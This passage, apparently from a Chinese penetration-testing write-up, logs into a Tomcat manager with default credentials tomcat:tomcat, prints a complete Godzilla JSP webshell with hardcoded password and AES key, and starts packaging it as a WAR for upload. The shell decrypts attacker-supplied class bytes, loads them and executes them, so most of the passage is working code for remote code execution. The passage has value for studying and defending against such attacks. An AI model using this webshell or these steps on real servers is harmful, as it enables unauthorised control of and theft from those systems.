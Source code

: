 [![](assets/1708094050-43741ba9959a448fbf95cc4775f39411.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230621144137-abbea1aa-0ffe-1.png)

输入账号密码 tomcat：tomcat 后进入 tomcat 的后台管理页面，发现一处上传 war 包即可直接 getshell。  
使用哥斯拉生成一个 jsp 马，将其单独放置于一个目录下，进入该目录，密码为 pass

```bash
<%! String xc="3c6e0b8a9c15224a"; String pass="pass"; String md5=md5(pass+xc); class X extends ClassLoader{public X(ClassLoader z){super(z);}public Class Q(byte[] cb){return super.defineClass(cb, 0, cb.length);} }public byte[] x(byte[] s,boolean m){ try{javax.crypto.Cipher c=javax.crypto.Cipher.getInstance("AES");c.init(m?1:2,new javax.crypto.spec.SecretKeySpec(xc.getBytes(),"AES"));return c.doFinal(s); }catch (Exception e){return null; }} public static String md5(String s) {String ret = null;try {java.security.MessageDigest m;m = java.security.MessageDigest.getInstance("MD5");m.update(s.getBytes(), 0, s.length());ret = new java.math.BigInteger(1, m.digest()).toString(16).toUpperCase();} catch (Exception e) {}return ret; } public static String base64Encode(byte[] bs) throws Exception {Class base64;String value = null;try {base64=Class.forName("java.util.Base64");Object Encoder = base64.getMethod("getEncoder", null).invoke(base64, null);value = (String)Encoder.getClass().getMethod("encodeToString", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });} catch (Exception e) {try { base64=Class.forName("sun.misc.BASE64Encoder"); Object Encoder = base64.newInstance(); value = (String)Encoder.getClass().getMethod("encode", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });} catch (Exception e2) {}}return value; } public static byte[] base64Decode(String bs) throws Exception {Class base64;byte[] value = null;try {base64=Class.forName("java.util.Base64");Object decoder = base64.getMethod("getDecoder", null).invoke(base64, null);value = (byte[])decoder.getClass().getMethod("decode", new Class[] { String.class }).invoke(decoder, new Object[] { bs });} catch (Exception e) {try { base64=Class.forName("sun.misc.BASE64Decoder"); Object decoder = base64.newInstance(); value = (byte[])decoder.getClass().getMethod("decodeBuffer", new Class[] { String.class }).invoke(decoder, new Object[] { bs });} catch (Exception e2) {}}return value; }%><%try{byte[] data=base64Decode(request.getParameter(pass));data=x(data, false);if (session.getAttribute("payload")==null){session.setAttribute("payload",new X(this.getClass().getClassLoader()).Q(data));}else{request.setAttribute("parameters",data);java.io.ByteArrayOutputStream arrOut=new java.io.ByteArrayOutputStream();Object f=((Class)session.getAttribute("payload")).newInstance();f.equals(arrOut);f.equals(pageContext);response.getWriter().write(md5.substring(0,16));f.toString();response.getWriter().write(base64Encode(x(arrOut.toByteArray(), true)));response.getWriter().write(md5.substring(16));} }catch (Exception e){}%>
```

将 shell.jsp 马打包成 war 包

